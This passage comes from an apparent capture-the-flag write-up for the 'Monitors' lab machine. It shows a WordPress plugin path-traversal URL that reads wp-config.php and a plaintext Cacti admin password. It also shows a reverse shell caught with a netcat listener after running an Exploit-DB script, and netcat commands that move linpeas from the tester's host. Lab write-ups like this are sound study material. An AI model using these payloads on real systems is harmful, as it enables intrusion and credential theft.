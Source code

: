 `//wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=../../../wp-config.php `

This gets us the config and a username / password combo. We try to use these for `SSH` but no dice. We use `Burpsuite`'s `Intruder` function to help us enumerate possible exploit paths. Eventually we find `sites-available` location with the default `000-default.conf` file that shows we should add `cacti-admin.monitors.htb` as a valid host location. We add this to our hostfile and see whatt's being hosted.

{{< figure src="__GHOST_URL__/content/images/2021/09/image-4.png" >}}

After trying a few combinations, we use `admin` and `BestAdministrator@2020!` to get logged into `Cacti`. A quick Google search shows we have one possible exploit - https://www.exploit-db.com/exploits/49810.

We start up a `netcat` listener on `4444` and fire the script off with all the defaults. After quite a few attempts we get a shell back!

{{< figure src="__GHOST_URL__/content/images/2021/09/image-5.png" >}}

Now that we're on the system, we can start to enumerate. We can copy over `linpeas` and see what comes up when we run it. The machine did not have `curl` or `wget` so we need to transfer it via `netcat`.

Receive command:
`nc 10.10.14.93 8080 > lin.sh`

Send command:
`nc -lvnp 8080 < linp.sh`

Once the file is over, we give it a run. We see some potential additional services running on the box. We know it's in a container, now we need to figure out how to break out.

{{< figure src="__GHOST_URL__/content/images/2021/09/image-6.png" >}}

There is so much data that it's hard for `linpeas` to make much sense of it. One item that is interesting is that we can see the files in `marcus`'s home directory.

{{< figure src="__GHOST_URL__/content/images/2021/09/image-7.png" >}}

This generally means we can view and list other things there as well. When we head to his directory, we see a `.backup` folder. The folder is missing `r` permissions but for some reason has execute? After a while of sifting through the `linpeas` log, I started to look at files associated to backups.

{{< figure src="__GHOST_URL__/content/images/2021/09/image-8.png" >}}

This service is worth checking out and we have the ability to read it. Inside that file, we see a reference to what's inside the `.backup` folder!

{{< figure src="__GHOST_URL__/content/images/2021/09/image-9.png" >}}

Now let's try to read the `backup.sh` file!

{{< figure src="__GHOST_URL__/content/images/2021/09/image-10.png" >}}

Inside this file, we have another username / password combo. We know that the user `cacti_backup` isn't a thing, so we try to `SSH` in as `marcus` with the above password, and we are in!

{{< figure src="__GHOST_URL__/content/images/2021/09/image-11.png" >}}

Now that we are in as `marcus`, we can look at the `note.txt` file in his directory.
